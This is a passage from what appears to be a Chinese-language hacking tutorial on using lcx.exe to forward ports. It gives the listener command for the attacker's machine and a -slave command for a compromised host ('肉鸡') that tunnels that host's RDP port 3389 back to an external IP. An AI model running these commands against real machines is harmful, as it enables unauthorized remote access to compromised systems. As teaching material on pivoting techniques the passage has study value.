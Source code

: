 然后我们在本机执行：

```
lcx.exe -listen 51 3388
```

![](../img/841c0738b005e3823e9c1b1f05bd64fe.png)

这条命令的意思就是说，监听本机的 51 和 3388 端口，并将两个端口互相转发，端口 51 的入境流量发给端口 3388，反之亦然。其中 51 是用于肉鸡连接的端口。3388 是用于我们的远程连接客户端连接的端口，为了避免与本机的远程连接服务冲突，选择了 3388。大家可以自行选择其他未占用端口。

然后我们在肉鸡上执行：

```
lcx.exe -slave 119.90.140.191 51 127.0.0.1 3389
```

![](../img/db1bb5351c73cb4a031ddc66fdee4a48.png)

这条命令连接肉鸡的 3389 端口，和本机的 51 端口，并互相转发。

之后，我们在本机或其他主机上使用远程连接客户端，连接`119.90.140.191:3388`，可以看到`lcx`中显示了转发的信息。

![](../img/6313c4db2d62af7086dc9f357706967d.png)
